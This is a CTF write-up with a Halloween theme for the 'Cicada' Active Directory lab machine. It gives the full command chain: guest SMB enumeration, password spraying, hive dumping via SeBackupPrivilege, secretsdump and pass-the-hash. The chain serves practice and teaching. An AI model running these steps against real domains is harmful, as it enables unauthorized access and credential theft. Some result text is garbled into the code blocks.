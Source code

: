 # 🎃👻 Cicada Active Directory Exploitation - Halloween Edition 👻🎃

**Difficulty**: Easy  
**Classification**: Official  
**Author**: Lantern 
**Machine Author**: thebkckcicada  
**Date**: 17th January 2025    

---

## 🕷️ Synopsis 🕷️

Cicada is a spooky Windows machine that lurks in the shadows of Active Directory. This haunted domain holds secrets for those brave enough to explore its depths. In this lab, you'll uncover plaintext passwords, perform a password spray, and abuse the `seBackupPrivilege` to achieve full system compromise.  

**Skills Required**:  
- Basic Understanding of Windows  
- Basic Enumeration Skills  

**Skills Learned**:  
- Active Directory Enumeration and Privilege Escalation  
- Password Spraying (Like casting a spell with a cauldron of passwords!)  
- `SeBackupPrivilege` Abuse (Because who needs permissions on Halloween?)  
- Pass-the-Hash Attack (Ghostly authentication!)  

---

## �☠️ Enumeration: The Haunted Castle ☠️🧧

### **Nmap Scan**  
We start by scanning the haunted domain `cicada.htb` with `nmap` to uncover its dark secrets.  

```bash
nmap -sC -sV -Pn 10.129.221.30 ### Machine IP ###
```
Key Findings:

Kerberos (port 88) and LDAP (ports 389, 636, 3268, 3269) indicate an Active Directory domain.

The domain controller is CICADA-DC.cicada.htb.

🔮 Pro Tip: Add the domain to /etc/hosts to avoid getting lost in the haunted forest of DNS!

```bash
echo "machineIP cicada.htb" | sudo tee -a /etc/hosts
```
🕵️ SMB Shares: The Graveyard of Forgotten Passwords 🕵️
Anonymous Access Attempt
First, we check if the SMB shares allow anonymous access (like a ghost sneaking through walls).

```bash
crackmapexec smb cicada.htb --shares
Result: Access denied! The castle gates are locked.
```
Guest Access Attempt
Next, we try the guest account (because even ghosts need a guest pass).

```bash
crackmapexec smb cicada.htb -u 'guest' -p '' --shares
Success! The HR share is accessible. Let’s explore it like a trick-or-treater raiding a candy bowl.
```
![smb options](https://github.com/user-attachments/assets/a60fcd7f-4fee-4fc8-a9cb-62b2c31abbcc)


```bash
smbclient //cicada.htb/HR
Inside, we find a file: Notice from HR.txt. Download it and uncover a default password:
```
![HR notice](https://github.com/user-attachments/assets/26b7013c-7d03-40fb-91de-e38b462f24a1)

![HR text](https://github.com/user-attachments/assets/4911ec8c-a7ed-4d59-b9ae-94fe229c762b)


Dear new hire!  
Your default password is: **🎃🎃🎃🎃🎃🎃🎃**  
🎃 Halloween Twist: This password is like a cursed artifact—once found, it grants power!

👻 Lookupsid: Summoning the Spirits of the Domain 👻
We use Impacket's lookupsid to enumerate domain users (like calling forth spirits from the underworld).

```bash
impacket-lookupsid 'cicada.htb/guest'@cicada.htb -no-pass
Key Users Found:
```
Administrator (The Lich King of the domain)

michael.wrightson (A careless warlock)

david.orelious (Who left his password in his tombstone description)

emily.oscars (A witch with a backup spellbook)

Extract users to users.txt:

![users](https://github.com/user-attachments/assets/592ad258-2e62-45dd-974a-bead8f22127e)


```bash
impacket-lookupsid 'cicada.htb/guest'@cicada.htb -no-pass | grep 'SidTypeUser' | sed 's/.*\\.\(.*\) (SidTypeUser)/\1/' > users.txt
🎃 Password Spraying: The Curse of the Default Password 🎃
We unleash a password spray attack with the default password (like a zombie horde attacking a village).
```
```bash
crackmapexec smb cicada.htb -u users.txt -p 'cicada$M6Corpb*@Lp#nZp18'
```
Result: michael.wrightson is still using the default password!

🕵️ Enumerating Domain Users: The Witch’s Brew 🕵️
With michael.wrightson’s credentials, we uncover more secrets:

```bash
crackmapexec smb cicada.htb -u michael.wrightson -p 'password found' --users
```
Boo! david.orelious left his password in his AD description:

desc: Just in case I forget my password is **🎃🎃🎃🎃🎃🎃**
🧙 Foothold: The Witch’s Spellbook 🧙
Using david.orelious’s credentials, we access the DEV share and find Backup_script.ps1.

```bash
smbclient //cicada.htb/DEV -U 'david.password found'
Inside the script, we find another set of cursed credentials:
```

```powershell
$username = "emily.oscars"  
$password = "password"
```

Great! Now we can do a little snooping and find the first user flag.

![user flag](https://github.com/user-attachments/assets/ef981578-f5f9-485b-b4a5-b58764444d83)


🧟 Privilege Escalation: The Lich King’s Crown 🧟
Step 1: Access as Emily
We use Evil-WinRM to log in as emily.oscars:

```bash
evil-winrm -u emily.oscars -p 'password' -i cicada.htb
```

Step 2: Check Privileges
Emily has SeBackupPrivilege—a ghostly power to bypass file permissions!

```powershell
whoami /priv
```

Step 3: Dump SAM and SYSTEM Hives
We steal the domain’s soul (hashes) by dumping the SAM and SYSTEM hives:

```powershell
reg save hklm\sam sam  
reg save hklm\system system
```
  
Download the files to our local machine:

```powershell
download sam  
download system
```
Step 4: Extract Hashes with Impacket
We use secretsdump to extract the Administrator’s NTLM hash:

```bash
impacket-secretsdump -sam sam -system system local
```

Output:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:🎃🎃🎃🎃🎃🎃🎃:::
Step 5: Pass-the-Hash Attack
We become the Lich King by logging in as Administrator with the hash:

```bash
evil-winrm -u Administrator -H hash -i cicada.htb
```

🏴‍☠️ Conclusion: The Haunting is Complete 🏴‍☠️
We’ve conquered the Cicada domain, from uncovering plaintext passwords to abusing backup privileges.

Lessons Learned:

Never leave passwords in descriptions (or cursed scrolls).

Default passwords are like open graves—someone will fall in.

Backup privileges can turn a mere mortal into a domain admin.

Now go forth, and haunt other machines! 🎃👻

Happy Hacking and Happy Halloween! 🧙‍♂️🦇










